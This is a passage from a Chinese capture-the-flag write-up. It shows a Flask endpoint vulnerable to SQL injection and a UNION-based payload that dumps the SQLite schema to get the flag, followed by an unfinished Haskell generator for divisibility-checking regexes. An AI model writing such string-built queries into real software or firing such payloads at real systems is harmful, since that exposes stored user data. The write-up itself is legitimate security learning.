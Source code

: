 > 在大语言模型时代，几乎每个人都在和大语言模型聊天。小 Q 也想找一个方便使用的 GPT 服务，所以在熟人推荐下，他注册了某个 GPT 服务，并且付了几块钱。只是出乎小 Q 意料的是，他才用了几天，服务商就跑路了！跑路的同时，服务商还公开了一些用户的聊天记录。小 Q 看着这些聊天记录，突然发现里面好像有 flag……

注意到`main.py`存在SQL注入

```Python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
```
自动化工具构造请求`/view?conversation_id=-4839' UNION ALL SELECT MAX(CHAR(113,113,107,112,113)||COALESCE(sql,CHAR(32)))||CHAR(113,118,120,113,113),NULL FROM sqlite_master WHERE type=CHAR(116,97,98,108,101) AND tbl_name=CHAR(109,101,115,115,97,103,101,115)-- jPoh`即可得到flag。

## 强大的正则表达式

> 从小 Q 开始写代码以来，他在无数的项目、帖子中看到各种神秘的字符串，听人推荐过，这就是传说中万能的正则表达式。本着能摆烂就绝不努力的原则，小 Q 从来没想过了解这门高雅艺术，遇到不懂的正则表达式就通通丢给 LLM 嘛，他这样想到。不过夜深人静的时候，小 Q 也时常在纠结写这么多 `switch-case` 到底是为了什么。
>
> 终于在一个不眠夜，小 Q 一口气看完了正则表达式的教程。哈？原来这么简单？小 Q 并两分钟写完了自测题目，看着教程剩下的目录，「分组」、「贪婪」、「前瞻」，正则表达式也不过如此嘛，他心想，也就做一些邮箱匹配之类的简单任务罢了。
>
> 正当他还沉浸在「不过如此」的幻想中，他刷到了那个关于正则表达式的古老而又神秘的传说：
>
> 「正则表达式可以用来计算取模和 CRC 校验……」

第一小题要求匹配能被16整除的十进制数。注意到16是10000的因子故只需判断后四位即可（事实上还要考虑位数小于5的情况……但看了看这测试点范围像是极小概率的（一开始的时候没考虑也给过了就是）。

第二小题通解

```Haskell
divBy :: Int -> String
divBy n = 
    let rep :: Int -> String -> String
        rep x s = concat $ replicate x s
        red :: Int -> Int -> (Int, Int)
        red x e
            | x `mod` 2 == 0 = red (x `div` 2) (e + 1)
            | otherwise = (e, x)
        genM :: Int -> [[String]]
        genM x = 
            let base = [[ if j == (i * 2) `mod` x then "0" else 
                          if j == (i * 2 + 1) `mod` x then "1" else ""
                        | j <- [0..x-1]] 
                        | i <- [0..x-1]]
            in [ [ if x `mod` 2 == 1 && i == (x - 1) `div` 2 && j == x - 2 then "01*0"
                    else if x `mod` 2 == 0 && i == x `div` 2 - 1 && j == x - 2 then "11*0"
                    else base !! i !! j
                  | j <- [0..x-1]]
               | i <- [0..x-1]]
        modM :: [[String]] -> Int -> [[String]]
        modM m x = foldl updM m [1..x - 2]
          where
            updM m k = 
                let inBuf = [if m !! i !! k /= "" then m !! i !! k else "" | i <- [0..x-1]]
                    outBuf = [if m !! k !! i /= "" then m !! k !! i else "" | i <- [0..x-1]]
                    newM = [[ if inBuf !! i /= "" && outBuf !! j /= "" 
                              then if inBuf !! k == "" 
                                   then if m !! i !! j == "" 
                                        then "(" ++ inBuf !! i ++ ")(" ++ outBuf !! j ++ ")"
                                        else "(" ++ m !! i !! j ++ ")|(" ++ inBuf !! i ++ ")(" ++ outBuf !! j ++ ")"
                                   else if i /= k 
                                        then if m !! i !! j == "" 
```